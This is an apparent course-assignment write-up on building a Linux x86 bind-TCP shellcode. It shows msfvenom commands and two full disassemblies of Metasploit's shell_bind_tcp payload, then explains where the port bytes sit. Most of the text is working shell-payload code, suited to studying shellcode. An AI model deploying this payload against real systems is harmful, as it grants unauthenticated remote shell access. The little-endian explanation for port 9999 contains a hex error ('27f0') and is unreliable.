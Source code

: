 # Assignment 1

## What to do 

• Create a Shell_Bind_TCP shellcode 

– Binds to a port 

– Execs Shell on incoming connection 

• Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_tcp_shell from Metasploit.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  68020022B8        push dword 0xb8220002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

Once we have it, we need to find the place where the PORT is injected. We locate it by changing the LPORT variable when running metasploit and comparing both outputs.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=9999 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  680200270F        push dword 0xf270002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

We can see that the position where the code is different is 

      00000012  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000012  680200270F        push dword 0xf270002 (0f27 in litte endian is 27f0 which is 9999 in decimal)

So, we only need to modify this line every time we want to change the listening port. 

To do that easily, you can use compile_bind_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

